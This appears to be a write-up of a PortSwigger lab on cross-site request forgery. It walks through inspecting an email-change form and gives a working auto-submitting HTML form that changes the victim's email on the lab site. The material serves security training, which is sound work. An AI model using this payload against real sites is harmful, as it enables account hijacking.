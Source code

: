 # Portswigger CSRF Lab - 1 

##  CSRF vulnerability with no defenses
In this lab we have to perfrom CSRF (Cross Site Request Forgery) which allows a user to make unintentional requests like changing user's email address which is the objective of this lab

<img src="https://i.imgur.com/YmaHQoB.png"/>

We are given credentials to log into our account 

<img src="https://i.imgur.com/6qHauWq.png"/>

We can update the email address from this page but this isn't the way we have to update it 

<img src="https://i.imgur.com/A1papzn.png"/>

If we look at the source code we can see the html for this form 

<img src="https://i.imgur.com/IXAAA6q.png"/>

We have `Go to exploit ` server (I don't have it now since I have solved this lab) , so going to that we will have options like `store` , `exploit` ,`deliver exploit` and `access logs` so first we need to craf a csrf exploit for that we need to copy the same html form content and in `action` paramter we add the url with `/my-account/change-email` 

```html
<html>
<body>
<form action="https://ac771fae1eadea59c0730ef5005c00f2.web-security-academy.net/my-account/change-email" method="POST">
<input required type="hidden" name="email" value="ez@swigger.com">
</form>
<script>
document.forms[0].submit();
</script>
</body>
</html>
```

It's not necessary to make the input hidden but real csrf attacks like this where you don't see any input when you click a link and something happens in the back , so this request will make the email changed to ez@swigger.com and with this we completed this lab 
